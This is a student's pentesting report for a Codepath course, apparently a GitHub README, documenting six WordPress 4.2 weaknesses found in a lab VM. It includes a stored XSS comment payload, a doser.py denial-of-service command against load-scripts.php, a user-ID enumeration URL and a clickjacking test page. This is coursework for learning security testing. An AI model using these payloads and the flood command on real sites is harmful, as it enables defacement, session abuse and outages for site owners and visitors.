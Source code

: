 # Codepath Week7: Wordpress
# Project 7 - WordPress Pentesting

Time spent: **24** hours spent in total

> Objective: Find, analyze, recreate, and document vulnerabilities affecting an old version of WordPress

## Pentesting Report

### 1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary:
		1. A comment which exceeds 64 kb of data to a post will cause the HTML to no longer be 'well formed', allowing a malicious script to be inserted.  
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![](https://github.com/dallens/CodepathWeek7Wordpress/blob/master/XssWeek7.gif)
  - [ ] Steps to recreate: 
		1. Over 64kb of data must be sent in the comment, achieved by padding the comment with over 64000 'X's . 
		2. The script is thus: <a title='x onmouseover=alert(unescape(/hello%20dallens/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px --64000Xs--'></a>
		3. Post this code as a comment and a persistent XSS dialog box will display.
  - [ ] Affected source code:
    - [change 32299](https://core.trac.wordpress.org/changeset/32299)
### 2. WordPress <= 4.9.4 - Unauthenticated Page Request Application Denial of Service (DoS) (unpatched)
  - [ ] Summary: 
		1. An unauthenticated request to to all Wordpress stored javascripts that is uneccesary for site functionality can be leveraged for a DOS, causing the server to be unresponsive.
    - Vulnerability types: DOS/Improper Authentication
    - Tested in version: 4.2
    - Fixed in version: Unpatched 
  - [ ] GIF Walkthrough:![](https://github.com/dallens/CodepathWeek7Wordpress/blob/master/UnauthenticatedDOSFinal.gif)
  - [ ] Steps to recreate: 
		1. Use a script to generate multiple requests (https://github.com/Quitten/doser.py/blob/master/doser.py) and a specially crafted payload requesting all stored javascript modules is launched from the attacker's machine.
		2. ```python doser.py -g 'http://wpdistillery.vm/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999```
  - [ ] Affected source code:
    - [Wordpress scriptloader](https://github.com/WordPress/WordPress/blob/master/wp-includes/script-loader.php)
### 3. Unauthenticated Valid User ID Enumeration
  - [ ] Summary:
		1. A user which does not have user edit permissions may manipulate the URL to enumerate valid user IDs  
    - Vulnerability types: URL Manipulation / User Enumeration
    - Tested in version: 4.2
    - Fixed in version: N/A
  - [ ] GIF Walkthrough: ![](https://github.com/dallens/CodepathWeek7Wordpress/blob/master/UnauthenticatedUser_Enumeration.gif)
  - [ ] Steps to recreate: 
		1. Log in as user with access to WP-Admin but no user modification priviledges 
		2. Insert the following as a URL: http://wpdistillery.vm/wp-admin/user-edit.php?user_id=2&wp_http_referer=%2Fwp-admin%2Fusers.php
		3. Change the host/server address to you own and iterate through the user IDs. Move from "you do not have permission" to "user ID not valid" to enumerate the range of valid IDs. 
  - [ ] Affected source code:
    - [source_file](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. http://wpdistillery.vm/readme.html exposes version number
  - [ ] Summary: 
		1. The Wordpress version is exposed via an unauthenticated request to the README file.
    - Vulnerability types: Fingerprinting or Enumeration
    - Tested in version: 4.2
    - Fixed in version: (unfixed)
  - [ ] GIF Walkthrough: ![](https://github.com/dallens/CodepathWeek7Wordpress/blob/master/README_VersionFingerprinting.gif)
  - [ ] Steps to recreate: 
		1. Navigate to http://wpdistillery.vm/readme.html
		2. Wordpress version is exposed without any authentication or effort by an attacker.
  - [ ] Affected source code:
    - [source_file](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. WordPress <= 4.2 - ClickJacking
  - [ ] Summary:
		1. A comment containing an embedded iframe displaying a working page on the wpdistillery.vm (Wordpress 4.2) can be posted. This proves that there are no clockjacking protections implemented in Wordpress 4.2
    - Vulnerability types: ClickJacking
    - Tested in version: 4.2
    - Fixed in version: Unknown
  - [ ] GIF Walkthrough: ![](https://github.com/dallens/CodepathWeek7Wordpress/blob/master/ClickJacking.gif)
  - [ ] Steps to recreate: 
		1. Using the testing script provided by OWASP (https://www.owasp.org/index.php/Testing_for_Clickjacking_(OTG-CLIENT-009)), a comment can be posted to a wordpress post that will display the iframe. 
		2. The script is:
```
<html>
   <head>
     <title>Clickjack test page</title>
   </head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src="http://wpdistillery.vm" width="500" height="500"></iframe>
   </body>
</html>
```
		3. Success requires posting as a user with admin priviledges, limiting the severity/risk of the attack.
  - [ ] Affected source code:
    - [source_file](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 6. WordPress <= 4.2 - Moderation Bypass: Implicit approval of subsequent subscriber comments
  - [ ] Summary:
		1. A comment by a subscriber typically needs approval by a moderator. However, a vulnerability exists such that a single comment approval my a moderator implicitly approves all subsequent comments made by that subscriber, bypassing moderation.
    - Vulnerability types: Privilege Escalation
    - Tested in version: 4.2
    - Fixed in version: Unknown
  - [ ] GIF Walkthrough: ![](https://github.com/dallens/CodepathWeek7Wordpress/blob/master/Escalation.gif)
  - [ ] Steps to recreate: 
		1. As a user with subscriber privileges, post one or more comments to a post. 
		2. As an administrator, or one with comment approval privileges, approve one of the subscriber's comments. 
		3. The subscriber may then post any additional comments with implicit approval (bypassing moderation entirely).
  - [ ] Affected source code:
    - [edit-comments.php](https://core.trac.wordpress.org/browser/trunk/src/wp-admin/edit-comments.php)
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
